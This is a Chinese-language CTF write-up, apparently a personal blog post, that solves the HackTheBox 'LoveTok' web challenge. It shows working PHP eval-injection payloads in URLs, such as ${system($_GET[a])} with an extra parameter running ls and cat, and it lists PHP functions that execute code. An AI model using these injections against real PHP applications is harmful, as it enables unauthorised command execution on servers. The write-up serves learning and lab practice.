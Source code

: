 ```yaml
---
layout: post
title: HTB-Easy-LoveTok
excerpt: "第五道HTB题目,解题过程"
date:   2021-05-12 09:13:00
categories: [HackTheBox]
comments: true
---
```


## 解题步骤

1. 题目描述：True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

2. 访问网页

   ![image-20210513093104193](https://monkeydatabase.github.io/img/image-20210513093104193.png)

   * 可以点击的只有下面的红色按钮，访问地址为`http://IP:PORT/?format=r`，存在一个名为format的Get参数，值为r

3. 下载题目提供的源码，分析执行流程

   * 接收请求，创建Router对象

   * 调用Router对象的new方法

     * 入参

       * $method：'GET'
       * $route：'/'
       * $controller：'TimeController@index'

     * 处理结果存储到Router对象的$routes中

       ```php
       Array ( 
           [0] => Array ( 
               [method] => GET 
               [route] => / 
               [controller] => Array ( 
                   [class] => TimeController 
                   [function] => index 
               ) 
           ) 
       )
       ```

     * 关于参数

       * 疑问：当$controller不可调用，且不包含`@`时，会报错，但是$controller变量不是在代码里写死了嘛
       * 答案：因为Router页面也在根目录下，可以通过访问http://IP:Port/Router.php，直接访问该PHP文件，但是该文件是类，如何实例化呢

   * 调用Router对象的match方法，将结果返回给前端

     * 调用Time Controller获取时间

4. 主要研究可控参数的TimeController.php

   * 源码

     ```php
     <?php
     class TimeModel
     {
         public function __construct($format)
         {
             $this->format = addslashes($format);
             $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
         }
     
         public function getTime()
         {
             eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
             return isset($time) ? $time : 'Something went terribly wrong';
         }
     }
     ```

   * 从Get参数中获取format拼接字符串之后用eval进行命令执行，但是服务端对`'`、`"`、`\`进行了转义，应该是在PHP.ini中开启了magic_quotes_gpc=On

   * 在将format设置为特别乱的字符串时，发现将原字符串直接打印输出了，而没有对日期进行输出

   * 因为使用了双引号作为字符串符号，所以可以通过`${}`执行命令，访问`http://IP:Port/?format=${system(ls)}`执行ls指令，进行回显

     ![image-20210513111725352](https://monkeydatabase.github.io/img/image-20210513111725352.png)

   * 尝试访问根目录，访问`http://IP:Port/?format=${system(ls -l /)}`，发现网页崩溃，应该是括号里不用引号包裹的话不能有空格

   * 重新阅读网页源码发现它首先使用addslashes函数对format变量进行了处理，对单引号`'`、双引号`"`、反斜杠`\`、`NULL`，发现之前的转义是从这一步进行的

   * 查看之前的Docker创建过程，发现flag位于根目录下，且文件名被随机产生，因此不得不进行目录遍历

   * 因为php会把get参数放入\$\_GET\[\]数组中，而取\$\_GET\[\]中的值不用引号也是可以取的，addslashed函数只对format进行了过滤，而题目是使用双引号包裹的可以对变量进行访存取值，所以新增一个GET参数a，format参数去读取a参数作为system的变量执行，访问`http://IP:Port/?format=${system($_GET[a])}&a=ls /`

     ![image-20210513154311803](https://monkeydatabase.github.io/img/image-20210513154311803.png)

   * 发现flag文件，进行文件读取，访问`http://IP:Port/?format=${system($_GET[a])}&a=cat /flagkY8eQ`，获得flag：HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}

## 独立思考

### 1、PHP内的标点符号有什么含义？

* `''`：表示字符串，但内部的`${}`不会作为变量进行访问取值
* `""`：表示字符串，但内部的${}会进行访问取值
* 撇号：表示system函数

### 2、这种”多传一个参数，由原本的参数读取该参数“的方式在Java语言中有没有可能？

* 在SpringBoot的HTTP服务中，我们通常使用如下注解
  * 使用@PathVariable获取在路径中的变量，如`/page/1`
  * 使用@RequestParam获取Get参数，如`?page=1`
  * 使用@RequestBody获取请求体，如`{"page":1}`
* Java本身是编译为字节码之后才能加载入Java虚拟机，然后被SpringBoot转化为BeanDefinition，之后通过ApplicationContext进行调度，而PHP和Python为解释型语言，所以Java很难被以这种方式攻击，除非Web服务提供方在自己的代码里开放了使用实时编译加载等功能的接口。
* 其实PHP和Python也很难被这种方式攻击，因为一般来说这种加载字符串或文件作为代码执行的写法会在安全开发规范中明确禁止，当前开发人员不遵守开发规范的情况也很常见。

### 3、PHP中可以将字符串作为代码执行的函数有哪些？

* 以PHP代码执行

  * 以字符串方式

    * eval

    * assert

    * preg_replace：三个参数，第一个参数为正则表达式，第二个参数为被检查字符串，第三个参数为用来替换的新字符串，但当在正则表达式的两个`/`中的第二个`/`加上e，那么第二个参数就会作为PHP代码执行

      ```php
      preg_repace('/a/e',$_GET[payload],"b")
      ```

    * call_user_func：第一个参数方法名，后面的不定量参数作为方法的参数

      ```php
      call_user_func('system','ls')
      ```
  * 以文件方式

    * include
    * include_once
    * require
    * require_once

* 以shell代码执行

  * exec：不输出结果，只返回最后一行shell结果
  * system：输出结果，并返回最后一行shell结果
  * passthru：输出结果
  * 撇号：相当于system函数

## 产生过的疑问

1. PHP内的标点符号有什么含义？
2. 这种”多传一个参数，由原本的参数读取该参数“的方式在Java语言中有没有可能？
3. php中可以将字符串作为php代码执行的函数有哪些？

